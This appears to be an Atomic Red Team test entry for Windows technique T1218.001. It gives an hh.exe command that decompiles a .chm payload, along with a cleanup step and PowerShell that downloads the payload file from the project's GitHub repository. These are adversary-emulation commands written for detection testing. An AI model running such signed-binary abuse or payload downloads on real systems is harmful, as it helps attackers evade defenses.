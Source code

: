 **Supported Platforms:** Windows


**auto_generated_guid:** 20cb05e0-1fa5-406d-92c1-84da4ba01813





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| local_chm_file | Local .chm payload | path | PathToAtomicsFolder&#92;T1218.001&#92;src&#92;T1218.001.chm|


#### Attack Commands: Run with `command_prompt`! 


```cmd
hh.exe -decompile %temp% "#{local_chm_file}"
```

#### Cleanup Commands:
```cmd
del %temp%\T1218.001.html >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: The payload must exist on disk at specified location (#{local_chm_file})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{local_chm_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{local_chm_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.001/src/T1218.001.chm" -OutFile "#{local_chm_file}"
```




<br/>
